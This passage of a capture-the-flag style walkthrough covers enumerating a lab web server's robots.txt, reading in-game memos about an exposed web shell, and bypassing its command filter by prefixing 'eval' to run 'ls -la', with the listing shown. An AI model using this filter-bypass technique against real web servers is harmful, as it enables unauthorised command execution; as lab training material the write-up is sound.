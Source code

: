 As you can see, it discovered quite a few things in the webpage, together with a new open port - 25468 running `ssh` service. Let's note that down and move forward.

As the scan showed us that there is `robots.txt` file, we can take a look at it.

{% highlight html %}
User-agent: *
Disallow: /login.php
Disallow: /dev_shell.php
Disallow: /lat_memo.html
Disallow: /passwords.html
{% endhighlight %}

Now we can look at each of these pages. Firstly - passwords.

{% highlight html %}
Really who made this file at least get a hash of your password to display, hackers can't do anything with a hash, this is probably why we had a security breach in the first place. Comeon people this is basic 101 security! I have moved the file off the server. Don't make me have to clean up the mess everytime someone does something as stupid as this. We will have a meeting about this and other stuff I found on the server. >:(
-Bob
{% endhighlight %}

Memo web page.

{% highlight html %}
Memo sent at GMT+10:00 2:37:42 by User: Bob
Hey guys IT here don't forget to check your emails regarding the recent security breach. There is a web shell running on the server with no protection but it should be safe as I have ported over the filter from the old windows server to our new linux one. Your email will have the link to the shell.

-Bob
{% endhighlight %}

And finally a dev shell page, containing another comment.

{% highlight html %}

{% endhighlight %}

I quickly noticed that there was no possibility to run any commands. But after a few moments there it was, a possibility to run  `echo` command.

{% highlight text %}
echo "test"
test
{% endhighlight %}

After that I checked `eval` command and to my amusement, it works!

{% highlight html %}
eval ls -la


<h5>Output:</h5>
total 1572
drwxr-xr-x 2 root root    4096 Mar  5 04:53 .
drwxr-xr-x 3 root root    4096 Feb 28 19:03 ..
-rw-r--r-- 1 root root      84 Mar  5 04:53 .hint
-rw-r--r-- 1 root root  340400 Mar  4 14:09 WIP.jpg
-rw-r--r-- 1 root root    2588 Mar  4 14:09 about.html
-rw-r--r-- 1 root root    3145 Mar  4 14:09 contact.html
-rw-r--r-- 1 root root    1396 Mar  4 14:09 dev_shell.php
-rw-r--r-- 1 root root    1361 Mar  4 14:09 dev_shell.php.bak
-rw-r--r-- 1 root root 1177950 Mar  4 14:09 dev_shell_back.png
-rw-r--r-- 1 root root    1425 Mar  4 14:09 index.html
-rw-r--r-- 1 root root    1425 Mar  4 14:09 index.html.bak
-rw-r--r-- 1 root root    1925 Mar  4 14:09 lat_memo.html
-rw-r--r-- 1 root root    1560 Mar  4 14:09 login.html
-rw-r--r-- 1 root root    4086 Mar  4 14:09 news.html